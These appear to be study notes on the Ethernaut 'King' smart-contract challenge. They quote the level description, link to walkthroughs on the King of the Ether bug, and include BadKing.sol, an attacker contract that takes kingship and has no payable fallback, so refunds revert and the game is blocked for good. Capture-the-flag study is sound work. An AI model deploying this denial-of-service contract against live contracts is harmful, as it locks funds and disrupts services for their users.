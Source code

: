 # 9. King
The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

**END** looked up solution
https://medium.com/coinmonks/ethernaut-lvl-9-king-walkthrough-how-bad-contracts-can-abuse-withdrawals-db12754f359b
Most of Ethernaut's levels try to expose (in an oversimpliefied form of course) something that actually happend. A real hack or a real bug.

was on the right track - https://hackernoon.com/smart-contract-attacks-part-2-ponzi-games-gone-wrong-d5a8b1a98dd8

In this case, see: King of the Ether and King of the Ether Postmortem

BadKing.sol
```
pragma solidity ^0.6.0;

contract BadKing {

  function becomeKing(address king, uint val) public payable {
    (bool result, bytes memory data) = king.call.value(val)("");
    if(!result) revert();
  }

  // OMG NO PAYABLE FALLBACK!!
}
```